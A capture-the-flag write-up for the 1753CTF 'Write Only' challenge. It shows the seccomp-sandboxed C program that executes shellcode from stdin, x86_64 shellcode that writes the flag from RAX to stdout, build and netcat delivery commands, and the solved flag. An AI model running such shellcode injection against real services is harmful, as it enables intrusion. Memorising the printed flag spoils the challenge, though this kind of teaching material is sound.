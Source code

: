 # ✍️ Write Only (Score: 170 / Solves: 33)
The flag is there. But that doesn't mean you'll be able to see it.

nc 147.78.1.47 40183

https://dl.1753ctf.com/write-only?s=jRBXD9EC


## Solution

We received a C file, and were tasked with exploiting it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>

#include <errno.h>
#include <linux/audit.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <linux/unistd.h>
#include <stddef.h>
#include <stdio.h>
#include <sys/prctl.h>
#include <unistd.h>

#include <stdbool.h>

bool install_filter()
{
	struct sock_filter filter[] = {
		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, (offsetof(struct seccomp_data, arch))),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL_PROCESS),

		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, (offsetof(struct seccomp_data, nr))),

		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_write, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit_group, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL_PROCESS),
	};
	struct sock_fprog prog = {
		.len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
		.filter = filter,
	};
	if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0))
	{
		perror("prctl(NO_NEW_PRIVS)");
		return 1;
	}
	if (prctl(PR_SET_SECCOMP, 2, &prog))
	{
		perror("prctl(PR_SET_SECCOMP)");
		return 1;
	}
	return 0;
}

int main()
{
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	const int FLAG_SIZE = 0x40;
	char flag[FLAG_SIZE];
	char *flag_mem = (char *)mmap(NULL, FLAG_SIZE, PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	FILE *flag_file = fopen("flag", "r");
	fread(flag_mem, 1, FLAG_SIZE, flag_file);
	fclose(flag_file);

	const int CODE_SIZE = 0x200;
	char *code_mem = (char *)mmap(NULL, CODE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	read(STDIN_FILENO, code_mem, CODE_SIZE);
	mprotect(code_mem, CODE_SIZE, PROT_READ | PROT_EXEC);

	install_filter();

	asm(
		"mov rax, %0;" // flag address in rax
		"jmp %1;"	   // jump into recdeived code
		:			   // no output
		: "r"(flag_mem), "r"(code_mem));
}
```

The key vulnerability lies in the dynamic execution of untrusted code read from stdin. The program executes this code with the flag's memory address available, allowing a carefully crafted payload to read the flag and output it using the allowed write system call.

To exploit this program and capture the flag:

1. Craft a Payload: You need to write assembly code (or compile C code to assembly that fits the constraints) that:

* Uses the write system call to output the flag to stdout.
* Operates under the assumption that the starting address of the flag is provided in the RAX register (as the program's final instructions before executing the untrusted code suggest).
* Adheres to the x86_64 calling conventions, specifically for system calls (e.g., system call number in RAX, arguments in RDI, RSI, RDX, etc., for the write syscall).

2. Bypass the seccomp Filter: Ensure your payload only uses the allowed system calls (write, exit, exit_group). Since the program explicitly kills any process that attempts to use a system call other than these, your payload must avoid making any other system calls.

3. Deliver the Payload: Once your payload is ready, you just need to provide it to the program's stdin when executed. This could be done by echoing the payload and piping it into the program, or by providing it through an input file redirected to the program.

```assembly
; Move the flag address from RAX to RSI (since RAX will be overwritten for syscall number)
mov rsi, rax

; Write syscall number (1) to RAX
mov rax, 1

; Set file descriptor to stdout (1) in RDI
mov rdi, 1

; Set number of bytes to write in RDX
mov rdx, 0x40

; Invoke the syscall
syscall

; Exit syscall
mov rax, 60  ; syscall number for exit
xor rdi, rdi ; status code 0
syscall
```

```sh
nasm -f elf64 payload.asm -o payload.o
ld -o payload payload.o
objcopy -O binary payload payload.bin
nc 147.78.1.47 40183 < payload.bin
```

1753c{yes_its_write_only_but_you_can_read_it_too}
